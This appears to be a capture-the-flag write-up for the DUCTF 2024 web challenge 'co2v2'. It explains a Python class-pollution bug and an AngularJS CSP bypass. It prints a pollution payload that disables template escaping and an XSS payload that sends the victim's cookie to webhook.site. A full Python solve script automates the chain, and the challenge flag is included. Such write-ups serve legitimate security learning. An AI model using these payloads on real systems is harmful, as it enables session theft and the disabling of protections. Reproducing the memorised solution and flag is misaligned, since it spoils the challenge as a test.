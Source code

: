 ```yaml
---
created: 2024-07-06T16:35
updated: 2024-07-07T03:58
title: co2v2
---
```


## Analysis

### `/admin/update-accepted-templates`
This route changes the environment, if we can change the value of `TEMPLATES_ESCAPE_ALL` to `False`, we will disable XSS protection.

### `/save_feedback`
This route uses a fancy merge function that after verification, is indeed vulnerable to "prototype" pollution.

### `script-src 'self' 'nonce-{nonce}' https://ajax.googleapis.com;`
The CSP rule can be bypassed by using libraries from `https://ajax.googleapis.com`, such as the infamous angular xss method.

## "Prototype" Pollution

We are essentially changing values on global by hijacking the merge command to do our bidding.

```json
{
    "__class__": {
        "__init__": {
            "__globals__": {
                "TEMPLATES_ESCAPE_ALL": false,
                "os":{"environ":{"APP_URL":"hijacked"}}
            }
        }
    }
}
```

## Attack Flow

1. Sign up & sign in
2. `/create_post` XSS payload note (angular + prototype)
3. `/save_feedback` with pollution payload to change value of `TEMPLATES_ESCAPE_ALL` to false.
4. `/admin/update-accepted-templates` Ask server to update policy (it will use the new value of `TEMPLATES_ESCAPE_ALL=False`)
5. `/api/v1/report` (no modification to default environ needed)
6. Check webhook

## Solve Script

```python
import requests
import random
import string

webhook = "https://webhook.site"
target = "https://web-co2v2-f4243a8e077ecefb.2024.ductf.dev"
session = requests.Session()


def generate_random_string(length):
    letters = string.ascii_letters
    return ''.join(random.choice(letters) for _ in range(length))


def regAndLogin():

    username = generate_random_string(6)
    password = generate_random_string(6)

    data = session.post(f'{target}/register', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to register", data.status_code)
        exit(1)
    data = session.post(f'{target}/login', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to login", data.status_code)
        exit(1)
    print("logged in")


def createPost():
    data = session.post(f'{target}/create_post', data={
        "title": f"""
<script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js></script>
<script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js></script>
<body class="ng-app" ng-csp>
{{{{$on.curry.call().fetch("{webhook}?"+$on.curry.call().document.cookie.toString(),{{mode:"no-cors"}})}}}}
</body>
        """,
        "content": """script loader""",
        "public": 1
    })
    if data.status_code != 200:
        print("failed to create post", data.status_code, data.text)
        exit(1)
    print("payload created")


def polluteRemote():
    data = session.post(f'{target}/save_feedback', json={
        "__class__": {
            "__init__": {
                "__globals__": {
                    "TEMPLATES_ESCAPE_ALL": False,
                    # "os": {"environ": {"APP_URL": url}} # yes i can change environ
                }
            }
        }
    })
    print("pollution complete", data.text)


def disableProtection():
    data = session.post(f'{target}/admin/update-accepted-templates', json={
        'policy': 'strict'
    })
    print("protection disabled", data.text)


def activatePayload():
    data = session.get(f'{target}/api/v1/report')
    print("payload activated", data.text)


regAndLogin()
createPost()
polluteRemote()  # "http://co2v2:1337")
disableProtection()
activatePayload()

# logged in
# payload created
# pollution complete {"success":"true"}
# protection disabled {"success":"true"}
# payload activated {"status":202}
```

```
DUCTF{_1_d3cid3_wh4ts_esc4p3d_}
```

